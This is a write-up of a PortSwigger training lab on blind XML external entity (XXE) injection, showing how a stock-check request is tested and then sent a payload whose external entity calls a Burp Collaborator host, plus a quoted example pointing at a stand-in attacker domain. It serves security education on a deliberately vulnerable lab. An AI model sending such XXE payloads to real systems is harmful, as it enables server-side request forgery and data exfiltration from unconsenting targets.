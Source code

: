 # Blind XXE with out-of-band interaction

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction), you'll learn: Blind XXE with out-of-band interaction! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab has a "Check stock" feature that parses XML input but does not display the result.

You can detect the [blind XXE](https://portswigger.net/web-security/xxe/blind) vulnerability by triggering out-of-band interactions with an external domain.

To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-3/images/Pasted%20image%2020230301131837.png)

In here, we can view other products' details:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-3/images/Pasted%20image%2020230301131907.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-3/images/Pasted%20image%2020230301131918.png)

Also, in all products details, we can check the available stocks.

**Let's click on the "Check stock" button, and see the responses in Burp Suite HTTP history:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-3/images/Pasted%20image%2020230301132028.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-3/images/Pasted%20image%2020230301132043.png)

**When we clicked that button, it'll send a POST request to `/product/stock`, with an XML data:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>
        1
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

When we see XML data, it's worth to test XXE (XML external entity) injection, XPATH injection.

**In XXE injection, we can try to trigger an XML parsing error to identify is there any XXE vulnerability:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>
        a
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-3/images/Pasted%20image%2020230301132439.png)

When we parsed an invalid `productId`, it'll response us "Invalid product ID".

That being said, we don't see any XML parsing error.

Now, we can also test **blind XXE**!

### What is blind XXE?

Blind XXE vulnerabilities arise where the application is vulnerable to [XXE injection](https://portswigger.net/web-security/xxe) but does not return the values of any defined external entities within its responses. This means that direct retrieval of server-side files is not possible, and so blind XXE is generally harder to exploit than regular XXE vulnerabilities.

There are two broad ways in which you can find and exploit blind XXE vulnerabilities:

- You can trigger out-of-band network interactions, sometimes exfiltrating sensitive data within the interaction data.
- You can trigger XML parsing errors in such a way that the error messages contain sensitive data.

### Detecting blind XXE using out-of-band ([OAST](https://portswigger.net/burp/application-security-testing/oast)) techniques

You can often detect blind XXE using the same technique as for [XXE SSRF attacks](https://portswigger.net/web-security/xxe#exploiting-xxe-to-perform-ssrf-attacks) but triggering the out-of-band network interaction to a system that you control. For example, you would define an external entity as follows:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

You would then make use of the defined entity in a data value within the XML.

This XXE attack causes the server to make a back-end HTTP request to the specified URL. The attacker can monitor for the resulting DNS lookup and HTTP request, and thereby detect that the XXE attack was successful.

**Armed with above information, let's try to send the following payload to dectect blind XXE.**

- Go to Burp Suite's Collaborator and copy the payload:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-3/images/Pasted%20image%2020230301132845.png)

- Send the payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ <!ENTITY xxe SYSTEM "http://e8nrmvt5jkg4fqm3m6akoir08rej29qy.oastify.com"> ]>
<stockCheck>
    <productId>
        &xxe;
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-3/images/Pasted%20image%2020230301133041.png)

- Burp Suite's Collaborator:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-3/images/Pasted%20image%2020230301133059.png)

As you can see, we've **recieved 2 DNS lookups**, which means **the "Check stock" feature is indeed vulnerable to blind XXE injection**!!

# What we've learned:

1. Blind XXE with out-of-band interaction